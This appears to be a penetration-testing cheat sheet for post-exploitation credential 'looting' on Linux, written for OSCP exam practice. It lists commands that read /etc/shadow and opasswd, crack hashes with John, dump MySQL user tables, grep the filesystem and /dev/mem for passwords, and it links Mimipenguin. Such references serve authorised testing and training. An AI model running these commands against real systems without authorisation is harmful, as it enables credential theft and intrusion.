 # Loot Linux

## OSCP Proof

```
hostname && whoami && cat proof.txt && /sbin/ifconfig
hostname && whoami && cat local.txt && /sbin/ifconfig
```

## Hashes

### Shadow
```
cat /etc/passwd
cat /etc/shadow
unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Old passwords in /etc/security/opasswd
The `/etc/security/opasswd` file is used by pam_cracklib to keep the history of old passwords so that the user will not reuse them.

Treat `opasswd` file like **/etc/shadow** file because: it contains user password hashes.

### Hashes in databases

MySQL example:
```
mysql -u root -p -h $ip
use "Users"  
show tables;  
select * from users;
```

## Passwords

### Files containing passwords
```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always
```

### In memory passwords
* `strings /dev/mem -n10 | grep -i PASS`
* [Mimipenguin](https://github.com/huntergregal/mimipenguin)
